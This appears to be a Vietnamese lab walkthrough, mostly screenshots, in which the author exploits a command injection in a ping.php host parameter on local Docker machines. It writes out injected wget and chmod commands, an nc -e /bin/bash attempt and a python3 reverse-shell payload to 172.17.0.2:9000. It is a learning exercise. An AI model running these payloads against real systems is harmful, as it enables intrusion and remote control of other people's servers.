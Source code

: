 ![image](https://hackmd.io/_uploads/r1B0fmw8T.png)
![image](https://hackmd.io/_uploads/H1SfmmD8T.png)

Dùng dirb tìm được
![image](https://hackmd.io/_uploads/rJwUXQwIp.png)
![image](https://hackmd.io/_uploads/BkuYXQvLT.png)
Dùng param host để xem có gì lạ không
![image](https://hackmd.io/_uploads/Syy2Q7wLT.png)


![image](https://hackmd.io/_uploads/BkYCmmPI6.png)

Ở đây dính lỗi command injection, do vậy ta đi tìm cách RCE.

![image](https://hackmd.io/_uploads/S1nMVmvU6.png)

Để làm được điều đó ta cần sử dụng netcat và cả 2 máy đều chưa có netcat. Với máy MailServer thì đơn giản chỉ cần tải về thôi

![image](https://hackmd.io/_uploads/BkLt4mwIp.png)
Nhưng với máy web server thì phải lòng vòng hơn, ta phải public file binary của nc lên để máy 172.17.0.3 tải về
![image](https://hackmd.io/_uploads/SkcXLXDUp.png)
![image](https://hackmd.io/_uploads/SJExwQwUT.png)


> http://localhost:8000/ping/ping.php?host=; wget http://172.17.0.2:9000/nc
> http://localhost:8000/ping/ping.php?host=; chmod 777 nc
> http://localhost:8000/ping/ping.php?host=; ls -la nc; pwd

![image](https://hackmd.io/_uploads/HJ5P8mw86.png)

http://localhost:8000/ping/ping.php?host=; /var/www/html/ping/nc 172.17.0.2 9000 -e /bin/bash

Thử dùng nc để tạo revshell nhưng không được.
Dùng payload python3 

```python
http://localhost:8000/ping/ping.php?host=;%20python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22172.17.0.2%22,9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([%22/bin/sh%22,%22-i%22])%27
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.2",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'


![image](https://hackmd.io/_uploads/H1Z2vXvUp.png)

![image](https://hackmd.io/_uploads/SykNumPUa.png)
Có 2 user trong /etc/passwd ta cần chú ý đến

